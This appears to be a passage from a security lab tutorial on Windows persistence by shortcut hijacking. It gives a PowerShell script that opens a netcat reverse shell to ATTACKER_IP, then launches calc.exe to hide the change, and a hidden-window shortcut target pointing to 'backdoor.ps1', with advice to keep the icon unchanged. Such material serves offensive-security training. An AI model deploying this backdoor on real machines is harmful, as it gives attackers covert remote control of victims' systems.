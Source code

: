 ![calc properties](./assets/7a7349b9dcc5af3180044ee1d7605967.png)

Before hijacking the shortcut's target, let's create a simple Powershell script in `C:\Windows\System32` or any other sneaky location. The script will execute a reverse shell  and then run calc.exe from the original location on the shortcut's  properties:

```powershell
Start-Process -NoNewWindow "c:\tools\nc64.exe" "-e cmd.exe ATTACKER_IP 4445"

C:\Windows\System32\calc.exe
```

Finally, we'll change the shortcut to point to our script. Notice  that the shortcut's icon might be automatically adjusted while doing so. Be sure to point the icon back to the original executable so that no  visible changes appear to the user. We also want to run our script on a  hidden window, for which we'll add the `-windowstyle hidden` option to Powershell. The final target of the shortcut would be:

```powershell
powershell.exe -WindowStyle hidden C:\Windows\System32\backdoor.ps1
```
